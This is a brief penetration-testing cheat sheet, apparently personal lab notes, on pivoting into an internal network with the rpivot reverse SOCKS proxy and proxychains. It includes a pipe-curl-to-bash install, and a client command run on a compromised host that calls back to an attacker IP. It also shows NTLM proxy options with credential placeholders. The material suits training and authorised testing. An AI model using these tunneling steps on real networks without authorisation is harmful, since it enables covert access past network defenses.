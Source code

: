 -- -
reverse SOCKS proxy tool written in Python. Will facilitate the tunnel from attackbox to target pivot point, but you will still need proxychains.
#### Install python2.7
I'm guess this doesn't work w/ python3 so you need to make sure both your attackbox and the pivot host have python2.7 installed. 
###### via package manager
```bash
# whatever flavor of linux:
sudo apt-get install python2.7
sudo pacman -S python2.7
```
###### manual
```bash
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```
#### Clone rpivot
```bash
git clone https://github.com/klsecservices/rpivot.git
```
#### Run server
Run the server script from your attackbox:
```bash
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
#### Run Client
First, [[SCP|file transfer]] the entire rpivot directory over to the pivot host. Then run the client script on the pivot host:
```bash
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
#### Proxychains
Make sure proxychains is configured to the proxy port you gave in the server.py command, and then just use proxychains:
```bash
proxychains firefox-esr 172.16.5.135:80
```
#### Connecting to a Web Server usint HTTP-Proxy & NTLM Auth
```bash
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```